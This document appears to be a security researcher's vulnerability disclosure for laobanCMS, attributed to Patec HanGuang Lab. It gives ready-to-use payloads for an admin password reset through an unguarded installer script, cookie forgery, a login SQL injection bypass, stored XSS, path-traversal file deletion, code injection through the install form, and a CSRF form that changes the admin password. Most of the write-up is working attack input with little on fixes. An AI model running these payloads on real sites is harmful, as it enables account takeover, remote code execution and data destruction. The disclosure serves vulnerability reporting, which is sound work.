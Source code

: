 #  INFO_EXP 
---------------------------
Access to the URL：`/data/0/admin.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B21.png)

# Reset Admin Password 
---------------------------
The problem is in `install/mysql_hy.php`, there is no verification of the installation conditions, first look at `install/index.php`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE1.png)
The second line makes a judgment on the installation conditions. If there is an `install.txt` file, the installation action stops, prompting to delete the file and installing. it, but in `mysql_hy.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE2.png)
Can see that no judgment is made, but directly execute the statement, we continue to look at the executed file, according to the code can be seen under the `/data` directory.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE3.png)

Username password in `/data/0/admin_1.txt`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE4.png)

payload：`/install/mysql_hy.php?riqi=0&i=0`

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE5.png)

Use admin admin to log in.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE6.png)

# Unauthorized access
-------------------------------
The vulnerability is in line 66-70 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%831.png)

You can see that the cookie value is set after login, respectively id and guanliyuan, but this value can be forged, so there is an unauthorized violation.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%832.png)

# SQL injection
--------------------------------
The vulnerability is in line 61-65 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A51.png)

Can see the SQL statement as

`Select * from admin where (guanliyuan='$guanliyuan' and mima='$mima') limit 1`

When the input user is `admin' or '1'='1`, the SQL statement is

`Select * from admin where (guanliyuan='admin' or '1'='1' and mima='xxxx') limit 1`

So you can log in successfully without a password.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A52.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A53.png)

# XSS1
--------------------------------
Visit `admin/liuyan.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-1.png)
POST payload: ` shuyu=lalala&neirong[]=5555<img src=1 onerror=alert(1)>&xxxxx[]=123123123`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-2.png)

# Del file
-------------------------------
POC：`/admin/pic.php?del=../install/install.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A41.png)
You can see that the `install.txt` file was successfully deleted and can be reinstalled.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A42.png)

#GETSHELL
-------------------------------
Visit `/install`.

POC: `127.0.0.1');phpinfo();//&username=root&dbname=111111&password=11111111&shuju=2018-11-06&submit=%E4%B8%80%E9%94%AE%E5%AE%89%E8%A3%85`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL2.png)

#XSS2
------------------------------
Visit `admin/type.php?id=1`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-2.png)

# XSS3
------------------------------
Visit `admin/art.php?typeid=1&gx=1`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-2.png)

# CSRF
-------------------------------
POC: 
```
<html>
  <body>
    <form action="http://www.a.com/admin/mima.php" method="POST">
      <input type="hidden" name="guanliyuan" value="123456" />
      <input type="hidden" name="mima" value="123456" />
      <input type="hidden" name="mima1" value="123456" />
      <input type="hidden" name="submit" value="%E4%BF%9D%E5%AD%98%E6%9B%B4%E6%94%B9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/CSRF1.png)


#### Vulnerabilities are owned by Patec HanGuang Lab
#### `https://www.patec.cn/`








